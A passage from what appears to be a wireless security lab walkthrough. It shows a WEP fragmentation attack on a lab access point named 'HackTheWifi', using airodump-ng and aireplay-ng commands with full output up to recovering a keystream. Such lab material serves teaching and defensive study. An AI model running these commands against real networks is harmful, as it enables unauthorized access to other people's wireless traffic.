 * * *

#### Performing the Attack

We begin by scanning the target access point using `airodump-ng`, capturing the communication into a file. The interface in monitor mode is specified using `wlan0mon`, the access point's channel with `-c`, and the output location with the `-w` argument.

```shell
airodump-ng wlan0mon -c 1 -w WEP

18:58:49  Created capture file "WEP-01.cap".

 CH  1 ][ Elapsed: 18 mins ][ 2024-08-05 19:16

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 A2:BD:32:EB:21:15  -47   0    10632      264    0   1   11   WEP  WEP         HackTheWifi

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 A2:BD:32:EB:21:15  42:E9:11:39:88:AE  -29    2 - 1      0      266

```

Next, we initiate the fragmentation attack with the following command. The `-5` option indicates the fragmentation attack, while `-b` specifies the BSSID of the AP, and `-h` is the MAC address of the connected station (or any source address that can associate with the AP).

```shell
aireplay-ng -5 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 42:E9:11:39:88:AE
19:18:35  Waiting for beacon frame (BSSID: A2:BD:32:EB:21:15) on channel 1
19:18:35  Waiting for a data packet...
Read 66 packets...

        Size: 100, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  A2:BD:32:EB:21:15
          Dest. MAC  =  A2:BD:32:EB:21:15
         Source MAC  =  42:E9:11:39:88:AE

        0x0000:  0841 0201 d8d6 3deb 29d5 42e9 1139 88ae  .A....=.).B..9..
        0x0010:  d8d6 3deb 29d5 1026 4f54 f100 dca9 17cd  ..=.)..&OT......
        0x0020:  7d16 6690 e06e 2bbf 45e6 416b f0a0 5e22  }.f..n+.E.Ak..^"
        0x0030:  a8a7 dc23 ba6b 8e83 7523 21e3 4429 f6a2  ...#.k..u#!.D)..
        0x0040:  72f1 a051 a481 1cb7 c983 7653 9db4 cb71  r..Q......vS...q
        0x0050:  d4ca 075d 1117 59b8 aa8d 2779 582b 7f52  ...]..Y...'yX+R
        0x0060:  339e d3be                                3...

Use this packet ? y

Saving chosen packet in replay_src-0805-191842.cap
19:18:51  Data packet found!
19:18:51  Sending fragmented packet
19:18:51  Got RELAYED packet!!
19:18:51  Trying to get 384 bytes of a keystream
19:18:51  Got RELAYED packet!!
19:18:51  Trying to get 1500 bytes of a keystream
19:18:51  Got RELAYED packet!!
Saving keystream in fragment-0805-191851.xor
Now you can build a packet with packetforge-ng out of that 1500 bytes keystream

```

